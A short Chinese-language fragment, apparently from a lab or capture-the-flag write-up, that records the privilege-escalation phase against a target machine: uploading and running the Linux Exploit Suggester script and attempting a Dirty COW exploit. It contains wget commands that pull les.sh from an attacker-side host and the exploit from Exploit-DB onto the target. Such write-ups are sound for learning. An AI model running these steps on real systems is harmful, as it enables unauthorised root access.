 





### 上传les.sh

```
wget 192.168.1.3/les.sh
```

![image-20250315054347335](assets/image-20250315054347335.png)





### 执行les.sh

![image-20250315054402982](assets/image-20250315054402982.png)

### 尝试脏牛提权



#### 靶机中wget下载失败

```
wget https://www.exploit-db.com/download/40839
```

![image-20250315054627662](assets/image-20250315054627662.png)

